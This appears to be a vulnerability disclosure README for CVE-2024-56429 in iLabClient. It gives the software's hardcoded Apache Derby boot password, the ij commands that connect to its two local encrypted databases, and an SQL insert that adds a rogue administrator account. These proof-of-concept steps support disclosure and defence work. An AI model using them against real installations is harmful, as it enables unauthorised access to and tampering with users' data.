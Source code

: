 CVE-2024-56429
==============
***Access to the local database of the iLabClient***

<br>

### Extract database password
The iLabClient uses an Apache Derby database to store the locally required data. To ensure the encryption, a 
`bootPassword` is used for the creation, which can be extracted from the source code
(the extracted code is in `DecyptedBootPassword.java`). After executing the extracted source code
the user receives the `bootPassword`.

```
jdbc:derby:iLabClient;dataEncryption=true;bootPassword=YngAYdgAE/kKZYu2F2wm6w==
```
<br>

### Connect to the database
By starting the iLabClient the first time the two local databases `iLabCLient` and `iLabDB` were created. 
To connect to these databases the tool `ij` from Apache Derby can be used, [Download](https://db.apache.org/derby/releases/release-10_14_2_0.html).

Starting `ij`:
```
"C:\ilabClient\java8u422\bin\java.exe" -jar "...\db-derby-10.14.2.0-lib\lib\derbyrun.jar" ij
```
`"C:\ilabClient\java8u422\bin\java.exe"`: Installed and used Java version from iLabClient<br>
`"...\db-derby-10.14.2.0-lib\lib\derbyrun.jar"`: Apache Derby Library

Connect to database:
```
cd "C:\ilabClient\db
connect 'jdbc:derby:iLabClient;dataEncryption=true;bootPassword=YngAYdgAE/kKZYu2F2wm6w==';
connect 'jdbc:derby:iLabDB;dataEncryption=true;bootPassword=YngAYdgAE/kKZYu2F2wm6w==';
```
<br>

### Manipulate data (example)
Once the connection has been established, the data can be read and manipulated. For example, by adding another user with 
more rights.

```
 insert into users (USERID, BENUTZER, NAME, PARAMS, HASH) values (4, 'admin2', 'Administrator', '111111111111111111', 'SHA-256:B6382EC801B1BBD5C464C6A5F9C8CFFDC603A7D3A4916B1F50BD592678E8380B');
```
The required hash can be created with the class `GenerateUserData.java`.

------

Discoverer: Lisa Ulbrich (Lufthansa Industry Solutions AS GmbH)
